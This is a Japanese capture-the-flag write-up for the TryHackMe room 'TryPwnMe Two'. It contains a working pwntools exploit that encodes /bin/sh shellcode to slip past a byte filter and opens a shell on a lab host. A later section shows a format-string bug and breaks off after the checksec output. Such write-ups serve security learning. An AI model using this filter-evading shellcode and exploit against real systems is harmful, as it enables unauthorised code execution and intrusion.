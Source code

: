 # TryPwnMe Two

https://tryhackme.com/room/trypwnmetwo

## TryExecMe 2

```c
undefined8 main(void)
{
  char cVar1;
  code *__buf;
  
  setup();
  banner();
  __buf = (code *)mmap((void *)0xcafe0000,100,7,0x22,-1,0);
  puts("\nGive me your spell, and I will execute it: ");
  read(0,__buf,0x80);
  puts("\nExecuting Spell...\n");
  cVar1 = forbidden(__buf);
  if (cVar1 != '\0') {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  (*__buf)();
  return 0;
}

undefined8 forbidden(long param_1)

{
  ulong local_18;
  
  local_18 = 0;
  while( true ) {
    if (0x7e < local_18) {
      return 0;
    }
    if ((*(char *)(local_18 + param_1) == '\x0f') && (*(char *)(param_1 + local_18 + 1) == '\x05'))
    {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(local_18 + param_1) == '\x0f') && (*(char *)(param_1 + local_18 + 1) == '4')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(local_18 + param_1) == -0x33) && (*(char *)(param_1 + local_18 + 1) == -0x80))
    break;
    local_18 = local_18 + 1;
  }
  puts("Forbidden spell detected!");
  return 1;
}
```

3種類のシェルコードが禁止されている。これにより、単純に /bin/sh を実行するようなシェルコードは成功しないと思われる。

- \x0f\x05	syscall命令	システムコール（例：execveなど）
- \x0f\x34	sysenter命令	古いLinuxカーネル向けシステムコール
- \xcd\x80（= -0x33と-0x80）	int 0x80命令	もっと古いLinuxシステムコール

```shell
$ pwn checksec ./tryexecme2
[*] '/home/kali/CTF/0429/materials-trypwnmetwo/TryExecMe2/tryexecme2'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

ギブアップ。

https://jaxafed.github.io/posts/tryhackme-trypwnme_two/

- 特定のバイト値を含まないようにシェルコードを生成することが可能。  
- xor, rol, decoder stub などのテクニックで自己復号する形になっている。
- 今回のフィルタリングでは \x0f, \xcd の2文字を避ければ十分。

```python
>>> from pwn import *
>>> shellcode = asm(shellcraft.sh())
... encoded_shellcode = encode(shellcode, avoid=b"\x0f\xcd")
... 
>>> print(encoded_shellcode)
b'\xd9\xd0\xfc\xd9t$\xf4^\x83\xc6\x18\x89\xf7\xac\x93\xac(\xd8\xaa\x80\xeb\xacu\xf5\x8a\xf4d\xcc4\x9c\xe7\x16\xe7\x16\xa4\xd3\xb5(/\x97Eth\xca$\x8d\xf5cp\xf9\x18\xfb\xebS\x9d\x9e|}\x93\x94\x1d\x1e\xefpa\x95\x126\x1b\x8d\xd9BWX\xa4\xa5\xf5&\xb0y\xfcM\xa0\n\xa9\xad\xa6\xffkl8\x19]\xae\x9c%\xfd\xdeIz\xd4\xa6\x83\xed\x86\x91\x07_i6\xefo\xac\x00'
```

```sh
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

r = remote("10.10.66.255", 5002)

# Generate shellcode to spawn a shell
shellcode = asm(shellcraft.sh())

# Encode the shellcode to avoid 0x0f and 0xcd
encoded_shellcode = encode(shellcode, avoid=b"\x0f\xcd")

r.recvuntil(b"Give me your spell, and I will execute it: \n")
r.sendline(encoded_shellcode)
r.interactive("$ ")
```

## Not Specified 2

```sh
$ ls
ld-linux-x86-64.so.2  libc.so.6  notspecified2
```

```c
void main(void)
{
  long in_FS_OFFSET;
  char local_218 [520];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("Please provide your username:");
  read(0,local_218,0x200);
  printf("Thanks ");
  printf(local_218);
  FUN_004010c0(0x539);
  return;
}

void FUN_004010c0(int param_1)
{
                    /* WARNING: Subroutine does not return */
  exit(param_1);
}
```

```sh
$ pwn checksec ./notspecified2 
[*] '/home/kali/ctf/pwnme2/materials-trypwnmetwo/NotSpecified2/notspecified2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
